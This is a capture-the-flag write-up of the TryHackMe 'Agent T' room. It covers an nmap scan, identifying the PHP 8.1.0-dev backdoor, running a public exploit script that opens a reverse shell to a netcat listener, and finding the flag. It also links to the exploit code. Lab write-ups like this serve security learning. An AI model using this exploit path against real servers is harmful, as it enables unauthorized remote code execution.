 ```yaml
---
title: "Agent T WriteUp"
categories: [ctf]
date: 2022/08/07
description: TryHackMe Agent T WriteUp.
---
```


# TryHackMe | Agent T

<p align="center">
  <img src="/img/agent_t_thm/img.png">
</p>

## Scanning && Enumeration

Let's start with the network scan first.

<p align="center">
  <img src="/img/agent_t_thm/0.png">
</p>

```bash
nmap -sSV --min-rate 1000 -p- -v <ip>

```
A web application is running on port 80. PHP 8.1.0 dev version. Let's look at the web interface.

<p align="center">
  <img src="/img/agent_t_thm/1.png">
</p>

This is the default admin dashboard. I browsed the pages, but i couldn't find any important clue or information.

It made more sense to find exploits suitable for PHP version.

## Exploitation

<p align="center">
  <img src="/img/agent_t_thm/2.png">
</p>

I found the appropriate exploit in exploit-db, but it didn't give me tty access, so i decided not to use the other exploit. Of course the choice is yours.

<p align="center">
  <img src="/img/agent_t_thm/3.png">
</p>

In order to exploit the remote code execution vulnerability, i listened with netcat and gave the necessary addresses and ports to the python script. I finally got the root shell.

```bash

python3 rce.py <dst-ip> <src-ip> <src-port>

```

<p align="center">
  <img src="/img/agent_t_thm/4.png">
</p>

There is no need for any privilege escalation process and we can find it with the find command since it asks for a flag from us.

<p align="center">
  <img src="/img/agent_t_thm/5.png">
</p>

```bash
find / -name *.txt

```

It was that simple. Yes, this is very easy when you do the right enumeration and exploitation.






### Resources

 - [Exploit 1](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py "Exploit")
 - [Exploit 2](https://www.exploit-db.com/exploits/49933 "Exploit 2")



